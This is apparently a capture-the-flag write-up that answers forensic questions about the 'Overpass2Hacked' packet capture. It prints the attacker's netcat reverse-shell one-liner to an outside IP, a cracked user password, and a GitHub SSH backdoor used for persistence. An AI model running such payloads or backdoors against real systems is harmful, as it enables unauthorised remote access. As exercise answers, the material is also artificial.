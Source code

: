 ## Overpass2Hacked

### overpass2hacked.pcap

### Task 1
```
 1. What was the URL of the page they used to upload a reverse shell? 
 => /development/
```

```
 2. What payload did the attacker use to gain access?
 => exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")
```

```
3. What password did the attacker use to privesc?
=> whenevernoteartinstant
```

```
4. How did the attacker establish persistence?
=> https://github.com/NinjaJc01/ssh-backdoor
```

```
5. Using the fasttrack wordlist, how many of the system passwords were crackable?
=> 4
```

### Task 2
```

```

## Username : james
## PAssword : whenevernoteartinstant

## SSH Backdoor : 0.0.0.0:2222